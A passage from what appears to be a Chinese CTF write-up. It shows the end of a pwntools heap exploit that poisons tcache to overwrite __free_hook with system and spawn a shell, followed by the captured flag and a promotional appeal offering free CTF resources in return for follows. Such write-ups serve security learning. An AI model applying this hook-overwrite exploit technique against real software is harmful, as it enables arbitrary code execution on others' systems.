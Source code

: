 ```
exp+= flat(0, 0x31)
exp+= p64(libc.symbols['__free_hook']-0x8)    #ChunkA's fd
Add(len(exp), exp)        #Tcache[0x30]->Chunk A->hook

Add(0x20, '\x00'*0x20)
exp = '/bin/sh\x00'
exp+= p64(libc.symbols['system'])
Add(0x20, exp)

#getshell
Delete(3)

#gdb.attach(sh, '''
#telescope (0x202100+0x0000555555554000) 16
#heap bins
#''')

sh.interactive()

'''
ResArr:            telescope (0x202040+0x0000555555554000)
PtrArr:            telescope (0x202100+0x0000555555554000)
flag{w0rd_Pl4y_13_vu1ner4bl3}
''' 
```

​​​![在这里插入图片描述](img/836190a8f2ee301c638bfc2b8996e333.png)
看到这里的大佬，动动发财的小手 点赞 + 回复 + 收藏，能【 关注 】一波就更好了

我是一名渗透测试工程师，为了感谢读者们，我想把我收藏的一些CTF夺旗赛干货贡献给大家，回馈每一个读者，希望能帮到你们。

干货主要有：

①1000+CTF历届题库（主流和经典的应该都有了）

②CTF技术文档（最全中文版）

③项目源码（四五十个有趣且经典的练手项目及源码）

④ CTF大赛、web安全、渗透测试方面的视频（适合小白学习）

⑤ 网络安全学习路线图（告别不入流的学习）

⑥ CTF/渗透测试工具镜像文件大全

⑦ 2021密码学/隐身术/PWN技术手册大全

各位朋友们可以关注+评论一波 然后点击下方 即可免费获取全部资料
